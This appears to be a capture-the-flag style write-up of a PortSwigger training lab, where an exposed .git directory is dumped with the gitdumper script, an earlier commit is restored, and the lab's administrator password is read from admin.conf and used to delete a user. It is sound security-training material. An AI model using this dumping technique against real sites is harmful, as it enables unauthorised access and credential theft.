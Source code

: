 
# Information disclosure in version control history

This lab discloses sensitive information via its version control history. To solve the lab, obtain the password for the administrator user then log in and delete Carlos's account.

---------------------------------------------

Reference: https://portswigger.net/web-security/information-disclosure/exploiting



![img](images/Information%20disclosure%20in%20version%20control%20history/1.png)

---------------------------------------------

Generated link: https://0afa00c404fb4d8581880c60002e004e.web-security-academy.net/

The directory .git/ exists and allows directory listing:



![img](images/Information%20disclosure%20in%20version%20control%20history/2.png)

Download the gitdumper script (https://raw.githubusercontent.com/internetwache/GitTools/master/Dumper/gitdumper.sh) and then the .git repo:

```
bash gitdumper.sh https://0afa00c404fb4d8581880c60002e004e.web-security-academy.net/.git/ /tmp/a/
```



![img](images/Information%20disclosure%20in%20version%20control%20history/3.png)

There are sensitive files deleted in the latest commit:

```
cd /tmp/a
git status
```



![img](images/Information%20disclosure%20in%20version%20control%20history/4.png)

Then we revert the previous commit and read the file:

```
git log
git reset --hard d3e84943424222ce64de7da0d797b7dfdef39ea1
cat admin.conf
```



![img](images/Information%20disclosure%20in%20version%20control%20history/5.png)

Then we access with credentials administrator:wy0szsn75q5jqn0w70bu and delete the user:



![img](images/Information%20disclosure%20in%20version%20control%20history/6.png)
